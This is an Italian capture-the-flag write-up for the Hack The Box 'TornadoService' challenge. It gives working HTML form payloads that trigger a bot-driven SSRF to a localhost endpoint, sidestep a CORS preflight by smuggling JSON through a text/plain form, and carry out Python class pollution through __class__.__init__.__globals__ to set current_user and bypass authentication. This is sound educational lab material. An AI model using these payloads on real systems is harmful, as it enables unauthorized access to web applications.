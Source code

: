 # TornadoService HTB challenge WRITEUP
[Exploit.py](Exploit/exploit-server.py) Made by: [Gianlush](https://github.com/Gianlush/)

## step 1: analisi codice
Dal codice sorgente si nota immediatamente la classe `ProtectedContentHandler` all'interno del `main.py` che restituisce direttamente la flag per superare la challenge. Tuttavia, per potere visitare l'endpoint correlato: `/stats` è necessario essere loggati. 

Un'altro endpoint interessante è `/report_tornado` che consente di inviare un indirizzo IP il quale verrà visitato da un BOT, il che fa subito pensare ad una possibile **SSRF**. Il metodo che gestisce l'endpoint `/update_tornado` è consentito solo in **localhost**, che nell'ottica della challenge potrebbe servire a nascondere un comportamento particolare che si potrebbe testare con una **SSRF**.

![step1](images/step1.png)

## step 2: tentativo di SSRF
Semplicemente inviato nella report l'indirizzo IP di un proprio webhoook, si nota che effettivamente il BOT visita tale URL, perciò potrebbe essere possibile fare il setup di un server che restituisca una pagina del tipo:
```html
<html>
  <body>
    <script>
        const data = {
            machine_id: "host-1234",
            ip_addres: "0.0.0.0",
            status: 'something'
        };
      fetch('http://127.0.0.1:1337/update_tornado', {
                method: 'POST', 
                headers: {
                    'Content-Type': 'application/json' 
                },
                body: JSON.stringify(data)
            });
    </script>
  </body>
</html>
```
si potrebbe accedere alle funzionalità dell'endpoint `update_tornado`. Tuttavia, analizzando il comportamento della challenge sul docker in locale, si nota che a seguito di questo tentativo di attacco viene automaticamente inviata una OPTIONS request:

![step2](images/step2.png)

## step 3: studio problematica

Indagando meglio sul tipo di richiesta, ho scoperto che, poichè la `/update_tornado` generata dal BOT quando visita il mio server è una richiesta **CROSS-ORIGIN**, il che causa l'invio automatico di una richiesta OPTIONS chiamata **[preflight](https://medium.com/@vedvyasio/understanding-preflight-requests-in-web-development-af1ab91ad903)**.
Dato che il server non ha nessun Handler che gestisca le richiesta di tipo OPTIONS, il flusso viene interrotto. La Preflight request serve ad 'avvisare' il server del tipo di richiesta che sta ricevendo e fargli generata una risposta all'interno della quale vengono indicate il tipo di richieste consentite (quali header, quali metodi ...).
Il server, però, è configurato per accettare richieste da qualsiasi origine, come si può notare nel `main.py`:

![step3](images/step3.png)

Perciò il reale obbiettivo non è quello di bypassare le CORS policy, bensì quello di evitare l'invio della preflight requests (superflua in questo caso) che, non essendo gestita, blocca il flusso dati.

Chiedendo affidamento al buon ChatGTP, ho ricavato un insieme di possibili soluzioni alla problematica:

![step4](images/step4.png)


## step 4: tentativo di SSRF 2.0

Tenendo a mente che la preflight viene inviata anche quando sono presenti determinati header, quali `Content-Type: application/json` ed altri, ho iniziato a testare alcuni di questi payload, fino a trovare il seguente (funzionante):

```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
    <input
        type="hidden"
        name='some'
        value='thing'
    />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In questo modo si può vedere dai log del Docker, che non viene ricevuta una richiesta OPTIONS ma direttamente la POST da noi voluta. Non ho trovato nessun modo per inviare un JSON nel body senza causare errori, quindi ho dovuto escogitare un modo alternativo. Tenendo presente che questa richiesta viene ricevuta nel seguento modo:

![step5](images/step5.png)

Non potendo inviare banalmente un payload del genere:

`name='{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something"}'`

`data=''`

Perchè altrimenti il campo **data** avrebbe 'rotto' il json: `'{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something"}'=...`

Dopo qualche esperimento ho realizzato di poter spezzare il Json e far sparire il il `= ` in questo modo:

### agent_details.html
```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something", "a":"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

In questo modo il payload della request risulta:

`'{"machine_id": "host-3615","ip_address": "0.0.0.0","status": "something", "a":"="}`

Ed effettivamente funziona come si può vedere:

![step6](images/step6.png)

## step 5: Class Pollution 

A questo punto, seguendo il flusso dati a partire da `UpdateTornadoHandler` si arriva all'esecuzione di una funzione un po' particolare, tramite la quale si 'deserializza' l'oggetto Tornado per poterlo aggiornare:

![step7](images/step7.png)

Codice che ricorda molto esempi di [Class Pollution vulnerability](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution), da cui si ricava molto facilmente un payload del genere:

`{'__class__':{'__init__':{'__globals__':{'NotAccessibleClass':{'variable':'polluted_variable'}}}}}`

che consetirebbe di accedere a Classi normalmente non accessibili, e crearvi nuove variabili o modificarne alcune già esistenti. Questa cosa tornerebbe parecchio utile se si riuscisse a modificare il valore di `self.get_secure_cookie("user")` a `True` così da poter accedere al endpoint `/stats` ed ottenere la flag.

Riadattando il file [agent_details.html](#agent_detailshtml) si ottiene il seguente:

```html
<html>
  <body>
    <form
      action="http://127.0.0.1:1337/update_tornado"
      method="POST"
      enctype="text/plain"
    >
      <input
        type="hidden"
        name='{"machine_id": "host-3546","ip_address": "0.0.0.0","status": "something", "__class__": {"__init__":{"__globals__":{"ProtectedContentHandler": {"current_user": "true" }}}},"a":"'
        value='"}'
      />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Non resta dunque che settare un server che hosti questi file, ottenere un IP pubblico (tramite port forwarding ad esempio) e far sì che il BOT visita il proprio server cos' configurato affinchè ci 'sblocchi' l'accesso all'endpoint `/stats`.